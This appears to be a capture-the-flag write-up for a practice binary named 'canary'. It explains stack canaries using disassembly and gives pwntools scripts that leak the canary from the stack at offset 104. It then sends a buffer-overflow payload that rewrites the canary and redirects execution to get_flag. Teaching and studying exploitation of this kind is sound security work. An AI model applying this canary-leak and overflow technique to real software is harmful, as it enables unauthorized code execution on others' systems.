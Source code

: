 This problem is based around stack canaries. You will notice that if you try to
buffer overflow the problem like normal, you will get a message about stack
smashing. This is due to the stack canary. We can see if a stack canary is
enabled with the command `pwn checksec <binary>`. If a program is compiled with
stack canaries enabled, the below snippets of assembly are added to the
beginning and end of every function call

```
  401222:       64 48 8b 04 25 28 00    mov    rax,QWORD PTR fs:0x28
  40122b:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
```

```
  4012f8:       48 8b 45 f8             mov    rax,QWORD PTR [rbp-0x8]
  4012fc:       64 48 33 04 25 28 00    xor    rax,QWORD PTR fs:0x28
  401305:       74 05                   je     40130c <vuln+0xf6>
  401307:       e8 c4 fd ff ff          call   4010d0 <__stack_chk_fail@plt>
```

You can see that at the begginning of the function, some value from `fs:0x28` is
moved onto the stack. Assume that `fs:0x28` is just some random value that we
cannot easily predict, and that it changes every run (If you are curious what it
really is read the end note). At the end of the function, the value from the
stack is compared to the value at `fs:0x28`, and if they are different the code
jumps to `__stack_chk_fail`. The value placed on the stack is called a "stack
canary", and it is used to detect buffer overflows. Normally, code would never
write to that section of the stack (the compiler makes sure not to put any
variables there). The only way the value would ever change then is if there was
a buffer overflow. This is because the canary is between our buffer and the
return address, so we have to overwrite it to overwrite the return address. When
we do overwrite the stack canary it jumps to `__stack_chk_fail`, which prints
out a warning message and exits. Since the program never returns from
`__stack_chk_fail`, our overwritten return address is never used. The easiest
way to get around a stack canary is to leak it. If we can find the value of the
stack canary, we can overwrite the stack canary with itself. That means that
we can pass the canary check at the end of the function and buffer overflow like
normal. 

When we tell the binary the length of our answer, if we give it a length
greater than the length of our answer it will print out values from the stack.
If it goes far enough it will print the canary. Lets run the below script to
print out 128 values on the stack. We can then compare this to the canary value
from gdb to figure out at what offset we can find the canary

```python
from pwn import *
context.terminal = ['konsole','-e']

p = gdb.debug('build/canary')
p.recvline()
p.recvline()
p.sendline('128')
p.recvline()
p.sendline('dummby')
p.recvline()
canary = p.recvline()
print(hexdump(canary))
p.interactive()
```

```
pwndbg> b vuln
pwndbg> c
pwndbg> canary
AT_RANDOM = 0x7ffe64cbb9e9 # points to (not masked) global canary value
Canary    = 0xcc0fea27522fe600
No valid canaries found on the stacks.
pwndbg> c
```

Python output:
```
00000000  64 75 6d 6d  62 79 00 00  65 aa 4a 7b  96 7f 00 00  │dumm│by··│e·J{│····│
00000010  00 00 00 00  00 00 00 00  20 a5 5e 7b  96 7f 00 00  │····│····│ ·^{│····│
00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  20 b3 5e 7b  96 7f 00 00  ed 74 4a 7b  96 7f 00 00  │ ·^{│····│·tJ{│····│
00000040  20 a5 5e 7b  96 7f 00 00  fc e9 49 7b  96 7f 00 00  │ ·^{│····│··I{│····│
00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000060  a0 b5 cb 64  fe 7f 00 00  00 e6 2f 52  27 ea 0f cc  │···d│····│··/R│'···│
00000070  a0 b5 cb 64  fe 7f 00 00  34 13 40 00  00 00 00 00  │···d│····│4·@·│····│
00000080  0a                                                  │·│
00000081
```

From this we can see that our stack canary can be found at offset 104 (`00 e6 2f
52 27 ea 0f cc`). Remember that the bytes are backwards in memory from the hex
representation due to the little endian format. Now, we can extract the canary
from bytes [104:104+8]. Then, when we use the second read to buffer overflow and
jump to `get_flag`, we just put the canary at position 104. This means that we
will overwrite the canary with itself, bypassing the check

```python
#!/usr/bin/python3

from pwn import *

context.binary = 'canary'

e = ELF('canary')
rop = ROP('canary')
p = process('canary')

p.recvline()
p.recvline()
p.sendline('128')
p.recvline()
p.sendline("dummy")
p.recvline()
canary = p.recvline()
canary = u64(canary[104:104+8])
p.recvline()
p.recvline()

payload = flat({104:canary, 120: e.sym['get_flag']})

p.sendline(payload)
p.recvline()
p.interactive()
```
